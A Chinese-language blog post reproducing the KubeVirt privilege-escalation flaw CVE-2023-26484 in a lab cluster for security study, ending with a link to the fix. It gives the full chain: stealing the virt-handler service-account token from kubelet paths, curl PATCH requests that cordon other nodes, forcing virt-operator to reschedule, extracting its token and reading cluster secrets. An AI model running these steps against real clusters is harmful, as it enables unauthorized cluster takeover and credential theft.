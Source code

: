 +++
title = 'CVE-2023-26484 Kubevirt 权限提升漏洞复现'
date = 2024-04-30T20:29:05+08:00
categories = '安全研究'
+++

该漏洞是论文工作 "Take Over the Whole Cluster: Attacking Kubernetes via Excessive Permissions of Third-party Applications" 挖掘到的, 对其进行复现可以更好地理解rbac的潜在风险.

<!--more-->

# CVE-2023-26484 Kubevirt 权限提升漏洞

## 简介

KubeVirt 是 Kubernetes 的虚拟机管理插件. 在 0.59.0 及之前的版本中, 如果恶意用户接管了运行 virt-handler 的 Kubernetes 节点, 则 virt-handler 服务账户可用于修改所有节点.这可被滥用于诱骗系统级特权组件. 这样, 被入侵的节点就可以被用来提升节点之外的权限, 直到可能拥有对整个集群的完全权限访问. 一旦用户可以入侵特定节点, 最简单的利用方法就是使用 virt-handler 服务账户将所有其他节点设置为不可监控, 然后等待具有高权限的系统关键组件出现在其节点上.


## 环境搭建

参考kubevirt的官网安装

```sh
export VERSION="v0.59.0"
kubectl create -f https://github.com/kubevirt/kubevirt/releases/download/${VERSION}/kubevirt-operator.yaml
kubectl create -f https://github.com/kubevirt/kubevirt/releases/download/${VERSION}/kubevirt-cr.yaml
```

## 复现

从简介中就可以对这个漏洞的作用机理有一个大概的了解, 那么复现的步骤大致分为以下步骤:

1. 获取一个节点的权限, 上面有virt-handler, 由于virt-handler是Daemonsets资源, 因此一定存在
2. 拿到virt-handler的SA Token, 然后向API Server发送请求去 patch 其他节点, 让新创建的容器无法被调度到这些节点上
3. 删除其他节点上的高权限pod, 在这个漏洞中, 我们可以利用virt-operator pod, 它的cluster role具有list 和 get secret的权限
4. 等待高权限pod被重新创建到攻击者控制的节点上
5. 使用高权限pod的SA, 获取集群权限

为了复现完整的流程, 最开始的时候让virt-operator不要出现在自己的节点上. 由于我复现用的集群有三个节点, 而virt-operator的默认replicas是2, 因此修改`kubevirt-operator.yaml`中的相应选项并apply, 最后得到

```
NAME                               READY   STATUS    RESTARTS       AGE
virt-api-695695c8bf-9jsjk          1/1     Running   1 (129m ago)   23d
virt-api-695695c8bf-fljvr          1/1     Running   1 (129m ago)   23d
virt-controller-6b8dbbd8c5-q7vf8   1/1     Running   1 (129m ago)   23d
virt-controller-6b8dbbd8c5-x8jcb   1/1     Running   1 (129m ago)   23d
virt-handler-j4qkf                 1/1     Running   1 (129m ago)   23d
virt-handler-ncpwp                 1/1     Running   1 (129m ago)   23d
virt-operator-5d5bdf9c5b-lzsmr     1/1     Running   2 (129m ago)   23d
```

接下来, 登录没有virt-operator的节点来模拟攻击者控制该节点的场景. 我的集群使用containerd作为容器引擎, 查看节点上的容器

```
❯ ctr -n k8s.io c ls
CONTAINER                                                           IMAGE                                                   RUNTIME
018b6f216241def706bf49b2cbe0136d26a9440ec44fba5ff9158f9c64449f77    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
03bc2c88f4e7f0b748cbff9e74469886125ec7857385750dd6962547fc2c94dd    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
2e34f1411a95334edbb18df3bfd6dd860c8369d19eb41efef66fd4aa75664ef7    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
3cad963e8764d3b57754dc8723e2dce8e7793c388b9a74083fd54ced88595ae3    docker.io/flannel/flannel:v0.24.3                       io.containerd.runc.v2
3df18a38c2398324f3836bb0fbe99f55775f641559fde6a9f57247d9d13be913    quay.io/kubevirt/virt-api:v0.59.0                       io.containerd.runc.v2
45a7feb9dabff6a8200ccf37f6da7c01d7f689b866127921f1b1c37d825fdeda    quay.io/kubevirt/virt-handler:v0.59.0                   io.containerd.runc.v2
4db25b7315ee957434ce455fd8de25c499e83ad521cb53f125fa436e5b50ad22    quay.io/kubevirt/virt-api:v0.59.0                       io.containerd.runc.v2
5c26a0f3b233eadb1f46382def64ee0401b8cc19c1dda80f60ad131b1e3f821d    registry.k8s.io/kube-proxy:v1.25.16                     io.containerd.runc.v2
688a35b84fc0ce7bd68e02928eb4e22728559e41977a4d2a5e108f6865c5f3c6    quay.io/kubevirt/virt-controller:v0.59.0                io.containerd.runc.v2
6e6eab0c1ede3d083283f8d96758bc898a81ceb472349e04a38c3bf6042c3bfb    quay.io/kubevirt/virt-controller:v0.59.0                io.containerd.runc.v2
836f05ead0f47d570373917f2315111a85104c36e2e2f700aa5949dac1963ec6    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
8f26e2c39123230330328ab931a517d334c83d92dad0b637c6522217cf7d9482    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
8f4c6b146eeea6b6f994f2deb5adc6d938ec79afb00cb71e7491b8b6e98359f6    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
90cc829dd1102778df74b9616dcef5061476d4a2b04660ee9ba23f34fbfdbaab    quay.io/kubevirt/virt-launcher:v0.59.0                  io.containerd.runc.v2
a4b93524451f68c41efa103e432622113c4909979c5d7ac538eede7455b6bfaa    registry.k8s.io/kube-proxy:v1.25.16                     io.containerd.runc.v2
b23ac35d5a9639ec75a923af74b9f6ed571c89a9a59ad037424fb829a39a73f1    docker.io/flannel/flannel-cni-plugin:v1.4.0-flannel1    io.containerd.runc.v2
bc71642c1b0228d2ed22e92c817d1eed581ef6179e25da5ba14b69df43251166    docker.io/flannel/flannel:v0.24.3                       io.containerd.runc.v2
c47082251d14b8e743d41ace290bd64923b704afb9e4e9193d7ad2e6b120f176    quay.io/kubevirt/virt-handler:v0.59.0                   io.containerd.runc.v2
c64079c284e3ce04c261ef192bb1a29a341f0e359dd8c0f0f5678748beaac846    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
ce128301b8f46a6e68711355780ff22389507e62b19ae987cbe6fdbda7fbdc58    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
d80cb0fc9991d5a0ba8bf565cd1ddc94273cfb50c2b56fb883f455193a1cab00    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
e253d834e57f7ee5ae3116e5e922aac2efda2e4475bf79de044b71666191f0c2    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
e983fef8d9a9556f82c81008e8efbfcd432781c48c078db6d36ef72650d0f6e4    docker.io/flannel/flannel:v0.24.3                       io.containerd.runc.v2
```

然后要找virt-handler的sa token, 在这次复现中, sa token的位置在`/var/lib/kubelet/pods/3b42aafd-8696-4077-a903-6f575e7c4784/volumes/kubernetes.io~projected/kube-api-access-dc92g` 下面, 然后使用这个token对其他节点进行patch

```sh
curl -k -X PATCH -H "Authorization: Bearer <sa-token>" \
     -H "Content-Type: application/json-patch+json" \
     -d '[{"op": "replace", "path": "/spec/unschedulable", "value": true}]' \
     "https://<api-server-address>/api/v1/nodes/<node>"
```

然后手动删除`virt-operator`

```sh
kubectl delete po virt-operator-5d5bdf9c5b-lzsmr
```

稍等片刻就可以看到`virt-operator`重新出现在了我们控制的节点上, 使用命令来查看sa token的具体位置

```sh
ctr -n k8s.io c ls
ctr -n k8s.io c info <container-id>
```

然后用这个token去查看secrets, 以kubevirt中的secrets为例, 发送请求即可读取.

```sh
curl -k -H "Authorization: Bearer <sa-token>" https://192.168.59.101:6443/api/v1/namespaces/kubevirt/secrets
```

## 修复

限制了operator对secret的访问范围, [修复的commit](https://github.com/kubevirt/kubevirt/pull/9162/commits/d43ab4ea6b74ae0c3f2e607da111d376bf58240c)
